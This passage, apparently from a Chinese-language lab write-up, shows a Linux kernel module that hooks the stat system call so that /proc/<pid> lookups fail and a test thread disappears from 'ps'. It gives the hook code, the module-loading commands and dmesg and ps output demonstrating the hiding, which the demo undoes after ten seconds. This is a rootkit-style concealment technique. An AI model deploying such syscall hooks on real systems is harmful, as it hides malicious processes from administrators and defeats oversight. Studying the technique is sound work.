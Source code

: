 其中itoa为自己编写的函数。将pid写入buf

替换的stat系统调用：

判断buf内容与调用stat的第一个参数是否一致，如果一致则返回-1.

```c
asmlinkage int my_sys_stat(const char *s, struct stat *st)
{
        int ret;
        ret = original_call(s, st);
        if (strcmp(s, buf) == 0) {
                printk("s = %s\n", s);
                printk("buf = %s\n", buf);
                return -1;
        }
        return ret;
}
```

编译模块后加载：

```bash
sudo insmod tmp.ko
dmesg
```

```bash
[  816.491829] U can't see me(<pid> 1363) now!
[  816.491831] but 10s later you will see me
```

```bash
ps -el
```

```bash
# 最后几行内容为：
5 S  1000  1276  1131  0  80   0 - 26996 -      ?        00:00:00		sshd
0 S  1000  1277  1276  0  80   0 -  5398 wait   pts/0    00:00:00		bash
1 I     0  1300     2  0  80   0 -     0 -      ?        00:00:00		kworker/u6:1
0 R  1000  1366  1277  0  80   0 -  6904 -      pts/0    00:00:00		ps
# 没有test_thread的信息
```

```bash
dmesg
```

```bash
[  816.491829] U can't see me(<pid> 1363) now!
[  816.491831] but 10s later you will see me
[  823.185646] s = /proc/1363
[  823.185648] buf = /proc/1363
```

dmesg中可以看到已经截获了stat的调用并对1363号进程隐藏

10s之后，buf值被修改，不再隐藏/proc/\<pid>
